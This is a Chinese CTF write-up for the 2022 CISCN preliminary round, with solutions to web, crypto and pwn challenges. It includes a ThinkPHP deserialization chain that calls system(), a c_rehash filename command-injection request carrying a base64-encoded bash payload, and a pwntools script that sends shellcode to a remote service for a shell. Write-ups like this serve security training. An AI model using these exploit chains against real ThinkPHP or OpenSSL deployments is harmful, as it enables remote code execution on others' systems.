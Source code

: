 # Web

## Ezpop

```php
<?php
namespace think{
    abstract class Model{
        private $lazySave = false;
        private $data = [];
        private $exists = false;
        protected $table;
        private $withAttr = [];
        protected $json = [];
        protected $jsonAssoc = false;
        function __construct($obj = ''){
            $this->lazySave = True;
            $this->data = ['whoami' => ['cat /*']];
            $this->exists = True;
            $this->table = $obj;
            $this->withAttr = ['whoami' => ['system']];
            $this->json = ['whoami',['whoami']];
            $this->jsonAssoc = True;
        }
    }
}
namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }
}

namespace{
    echo(urlencode(serialize(new think\model\Pivot(new think\model\Pivot()))));
}
```

## online_crt

c_rehash最近出了个rce的洞：

https://www.openssl.org/news/secadv/20220503.txt

大致看一下题目给的代码和漏洞描述：

![image-20220529160200097](2022-CISCN-%E5%88%9D%E8%B5%9B-Writeup.assets/image-20220529160200097.png)

大致能感觉到就是因为crt文件名被直接传进了要执行的命令中，可以直接利用反引号执行（或者`${}`）

python代码中的proxy那个点，直接利用闭合和换行即可构造http请求。go的代码：

```go
	if c.Request.URL.RawPath != "" && c.Request.Host == "admin" {
		err := os.Rename(staticPath+oldname, staticPath+newname)
		if err != nil {
			return
		}
		c.String(200, newname)
		return
	}
```

RawPath查一下：https://www.ipeapea.cn/post/go-url/，需要路径加个URL编码才行。

之后就是改文件名然后利用漏洞rce。先改文件名：

```
uri=/%2561dmin/rename?oldname=a5b4417a-d220-4b01-85e0-539ef78d061f.crt%26newname=`echo%2520Y2F0IC8qIA==|base64%2520--decode|bash>flag.txt`.crt HTTP/1.1
Host: admin
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

asafsfs=
```



![image-20220529160824370](2022-CISCN-%E5%88%9D%E8%B5%9B-Writeup.assets/image-20220529160824370.png)

访问createlink执行命令后读flag即可：

```
flag{4a2296c0-bf54-41fc-84b8-ff7769019425}
```



# Crypto

## 基于挑战码的双向认证

前两题非预期直接读flag

cd /root/cube-shell/instance/flag_server

cat flag1.txt

cat flag2.txt

第三题root默认密码，直接`su root`成为root后读flag，



## 签到

原文“弼时安全到达了”所对应的7个电码：
1732 2514 1344 0356 0451 6671 0055
随机密码：6089 0451 8531 3950 5611 5856 4546

模10运算得到：7711 2965 9875 3206 5062 1427 4591

http://eci-2zebelhabwvwhwux6eqf.cloudeci1.ichunqiu.com:8888/send?msg=7711296598753206506214274591

![image-20220529165848466](2022-CISCN-%E5%88%9D%E8%B5%9B-Writeup.assets/image-20220529165848466.png)

## ISO9798

```python
#sha256爆破脚本
import hashlib
import itertools
from string import digits, ascii_letters
alpha_bet=digits+ascii_letters
strlist = itertools.product(alpha_bet, repeat=4)

sha256="206af145b10e79e0bdde11d373e47d0700296edd1ec9162b1078a5f3fc7c2d5a"
tail="3fv7jk6rUsgTbXBJ"

xxxx=''

for i in strlist:
    data=i[0]+i[1]+i[2]+i[3]
    data_sha=hashlib.sha256((data+str(tail)).encode('utf-8')).hexdigest()
    if(data_sha==sha256):
        xxxx=data
        break

print(xxxx)
```

给定任意rB后得到对应字串，按32位分段得到：

```
rA = ed166e26f755eed72e0a1af36a1f9a72
rB = 6c6369633573c9157d8cec33da21a711
rB||rA = 6c6369633573c9157d8cec33da21a711ed166e26f755eed72e0a1af36a1f9a72
```

![image-20220529165940415](2022-CISCN-%E5%88%9D%E8%B5%9B-Writeup.assets/image-20220529165940415.png)

# PWN

## login-nomal

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'

# 写一下shellcode
# f = open('./shellcode.bin','wb')
# shellcode = asm(shellcraft.amd64.sh())
# f.write(shellcode)
# f.close

#把shellcode转为可视化字符串
# python ./ALPHA3.py x64 ascii mixedcase rdx --input="shellcode.bin" > payload.bin


# io = process('./login')
io = remote('59.110.105.63',41172)
elf = ELF('./login')

f = open('payload.bin','rb')
payload = f.read()

io.recvuntil(b">>>")
io.sendline(b'opt:1\r\nmsg:ro0t\r\n')

io.recvuntil(b">>>")
io.sendline(b'opt:2\r\nmsg:'+payload+b'\r\n')
io.interactive()

```

![17DBBA80038857AC5F89F43E16FC69B8](2022-CISCN-%E5%88%9D%E8%B5%9B-Writeup.assets/17DBBA80038857AC5F89F43E16FC69B8.png)
